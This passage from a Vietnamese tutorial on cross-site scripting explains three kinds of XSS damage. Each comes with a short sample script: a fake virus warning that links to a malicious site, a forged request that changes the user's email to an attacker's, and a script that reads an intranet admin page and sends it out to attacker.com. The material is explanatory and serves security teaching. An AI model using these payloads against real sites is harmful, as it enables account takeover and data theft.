 <a name="inserting-harmful-content"></a>
### 3. Chèn Nội Dung Độc Hại

Kẻ tấn công có thể sử dụng XSS để chèn nội dung độc hại vào trang web, chẳng hạn như các quảng cáo không mong muốn, các liên kết tải xuống phần mềm độc hại, hoặc các biểu mẫu giả mạo để thu thập thông tin cá nhân.

**Ví dụ:**
```javascript
<script>
document.body.innerHTML = '<h1>Hệ thống của bạn bị nhiễm virus! Hãy tải xuống công cụ diệt virus tại đây.</h1><a href="http://malicious-site.com">Tải xuống</a>';
</script>
```
Đoạn mã này sẽ thay đổi nội dung của trang web để hiển thị thông báo giả mạo và liên kết độc hại.

<a name="performing-actions-on-users-behalf-session-hijacking"></a>
### 4. Thực hiện Các Hành Động Thay Người Dùng (Session Hijacking)

Kẻ tấn công có thể sử dụng XSS để thực hiện các hành động thay mặt người dùng, chẳng hạn như gửi tin nhắn, đăng bài, hoặc thay đổi cài đặt tài khoản mà người dùng không hề hay biết.

**Ví dụ:**
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://example.com/api/change-email", true);
xhr.setRequestHeader("Content-Type", "application/json");
xhr.send(JSON.stringify({
  email: "attacker@example.com"
}));
</script>
```
Đoạn mã này sẽ gửi yêu cầu thay đổi địa chỉ email của người dùng mà không cần sự cho phép của họ.

<a name="attack-on-internal-network-intranet"></a>
### 5. Tấn công vào Mạng Nội Bộ (Intranet)

Nếu người dùng bị tấn công đang kết nối với mạng nội bộ (intranet) của một tổ chức, kẻ tấn công có thể sử dụng XSS để truy cập và tấn công các dịch vụ và thiết bị trong mạng nội bộ đó.

**Ví dụ:**
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://intranet.local/admin", true);
xhr.onreadystatechange = function() {
  if (xhr.readyState == 4 && xhr.status == 200) {
    // Gửi dữ liệu thu thập được đến máy chủ của kẻ tấn công
    var img = new Image();
    img.src = "http://attacker.com/steal-data?data=" + xhr.responseText;
  }
};
xhr.send();
</script>
```
Đoạn mã này sẽ gửi yêu cầu đến một trang quản trị nội bộ và gửi dữ liệu thu thập được đến máy chủ của kẻ tấn công.
